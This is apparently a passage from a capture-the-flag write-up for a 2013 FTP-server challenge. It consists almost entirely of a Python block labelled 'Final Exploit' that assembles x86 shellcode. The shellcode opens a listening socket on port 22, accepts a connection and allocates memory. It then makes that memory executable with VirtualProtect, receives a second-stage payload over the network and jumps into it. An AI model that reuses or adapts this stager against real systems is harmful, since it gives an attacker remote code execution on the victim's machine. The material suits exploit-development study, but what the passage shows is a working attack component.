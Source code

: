 ``` python Final Exploit
  shellcode += "\x8B\xD9"                           # MOV EBX,ECX <contains an address>
  shellcode += "\xB3\x34"                           # MOV BL, 0x34
  shellcode += "\x8A\xFB"                           # MOV BH, BL  <address now valid>
  # set up the stack for the call to `socket`
  shellcode += "\x6A\x06"                           # PUSH 6
  shellcode += "\x6A\x01"                           # PUSH 1
  shellcode += "\x6A\x02"                           # PUSH 2
  # invoke the call to `socket`
  shellcode += "\xFF\xD3"                           # CALL EBX
  # save our socket handle
  shellcode += "\x89\xC7"                           # MOV EDI, EAX
  # Find sockaddr
  shellcode += "\x89\xD9"                           # MOV ECX, EBX
  shellcode += "\xB5\x74"                           # MOV CH, 0x74
  # adjust the port number by bumping it up one to 22
  shellcode += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
  # adjust the call pointer to reference `bind`
  shellcode += "\xB3\x54"                           # MOV BL, 0x54
  # prepare the parameters on the stack for the `bind` call
  shellcode += "\x6A\x10"                           # PUSH 0x10
  shellcode += "\x51"                               # PUSH ECX
  shellcode += "\x50"                               # PUSH EAX
  # invoke the call to `bind`
  shellcode += "\xFF\xD3"                           # CALL EBX
  # adjust the call pointer to reference `listen`
  shellcode += "\xB3\x5C"                           # MOV BL, 0x5C
  # prepare the parameters on the stack for the `listen` call
  shellcode += "\x6A\x7F"                           # PUSH 0x7F
  shellcode += "\x57"                               # PUSH EDI
  # invoke the call to `listen`
  shellcode += "\xFF\xD3"                           # CALL EBX
  # adjust the call pointer to reference `accept`
  shellcode += "\xB3\x24"                           # MOV BL, 0x24
  # prepare the parameters on the stack for the `accept` call
  shellcode += "\x57"                               # PUSH EDI
  # invoke the call to `accept`
  shellcode += "\xFF\xD3"                           # CALL EBX
  # prepare for the malloc call and call it
  shellcode += "\x8B\xF8"                           # MOV EDI, EAX
  shellcode += "\x66\xBB\xD4\x3D"                   # MOV BX, 0x3DD4
  shellcode += "\x8A\xE0"                           # MOV AH, AL
  shellcode += "\x50"                               # PUSH EAX
  # invoke the call to `malloc`
  shellcode += "\xFF\xD3"                           # CALL EBX
  shellcode += "\x59\x51"                           # POP ECX, PUSH ECX
  # save the memory handle, and push it up ready for later use
  shellcode += "\x8B\xF0"                           # MOV ESI, EAX
  shellcode += "\x50"                               # PUSH EAX
  # set up virtual protect call
  shellcode += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
  shellcode += "\x55"                               # PUSH EBP
  shellcode += "\x6A\x40"                           # PUSH 0x40
  shellcode += "\x51"                               # PUSH ECX
  shellcode += "\x56"                               # PUSH ESI
  # call virtual protect
  shellcode += "\xFF\xD3"                           # CALL EBX
  # prep the call for recv
  shellcode += "\x66\xBB\xDC\x82"                   # MOV BX, 0x82DC
  shellcode += "\x57"                               # PUSH EDI
  # call recv
  shellcode += "\xFF\x13"                           # CALL [EBX]
  # invoke the payload
  shellcode += "\xFF\xE6"                           # JMP ESI
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization